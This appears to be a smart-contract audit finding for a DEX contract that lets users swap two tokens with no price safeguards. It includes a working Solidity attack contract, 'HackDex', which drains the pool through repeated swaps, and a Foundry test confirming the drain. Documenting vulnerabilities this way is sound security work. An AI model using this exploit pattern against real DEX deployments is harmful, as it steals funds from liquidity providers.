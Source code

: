 ### [S-1] Price Manipulation via Unbalanced Token Swaps (Root Cause: Lack of Swap Rate Safeguards + Impact: Token Drain)

**Description:**
The DEX contract allows users to swap between two tokens without enforcing proper safeguards against price manipulation. An attacker can exploit this by performing repeated swaps between the two tokens, artificially manipulating their prices and draining the contract of one of the tokens completely.

**Impact:**

An attacker can drain the entire balance of one of the tokens from the DEX contract. This results in a significant financial loss for the DEX and its liquidity providers, as the tokens locked in the contract can be maliciously extracted by the attacker.

**Proof of Concept:**

Below is the attack contract and test case demonstrating how the exploit can be performed:

<details> 
<summary>Attack Contract Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Dex} from "./Dex.sol";


contract HackDex{
    Dex public dex;
    IERC20 public token1;
    IERC20 public token2;
    constructor(address _dex, address _token1,address _token2){
        dex = Dex(_dex);
        token1 = IERC20(_token1);
        token2 = IERC20(_token2);
    }

    function attakc() public{

        token1.approve(address(dex), type(uint256).max);
        token2.approve(address(dex), type(uint256).max);

        dex.swap(address(token1), address(token2), 10);

        //swap 4 more times
          for (uint i = 0; i < 5; i++) {
            uint256 balance1 = token1.balanceOf(address(this));
            dex.swap(address(token1), address(token2), balance1);

            uint256 balance2 = token2.balanceOf(address(this));
            dex.swap(address(token2), address(token1), balance2);
        }
        

        
    }


}

```
</details>

<details> 
<summary>Test Contract Code</summary>

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {Dex} from "../src/Dex.sol";
import {HackDex} from "../src/HackDex.sol";


contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    // IERC20 public token1;
    // IERC20 public token2;
    MockERC20 public token1;
    MockERC20 public token2;

    HackDex public hackDex;


    function setUp() public {
        dex = new Dex(address(this));
        // token1 = IERC20(Token1);
        // token2 = IERC20(Token2);
        token1 = new MockERC20("Token1", "TKN1");
        token2 = new MockERC20("Token2", "TKN2");

      
        token1.mint(address(this), 110);
        token2.mint(address(this), 110);
        token1.mint(address(dex), 100);
        token2.mint(address(dex), 100);

        dex.setTokens(address(token1), address(token2));

        hackDex = new HackDex(address(dex), address(token1), address(token2));


        // Transfer initial tokens to the HackDex contract
        token1.transfer(address(hackDex), 10);
        token2.transfer(address(hackDex), 10);
    }
  function testAttack() public {
        token1.approve(address(dex), 110);
        token2.approve(address(dex), 110);

        token1.approve(address(hackDex), 110);
        token2.approve(address(hackDex), 110);

        dex.addLiquidity(address(token1), 100);
        dex.addLiquidity(address(token2), 100);

        hackDex.attakc();


        // Assert the DEX is drained of one of the tokens
        assertEq(token1.balanceOf(address(dex)), 0);
        //assertEq(token2.balanceOf(address(dex)), 0);
    }
}

```
</details> 


**Recommended Mitigation:**

Implement Safeguards Against Price Manipulation and slippage controls.


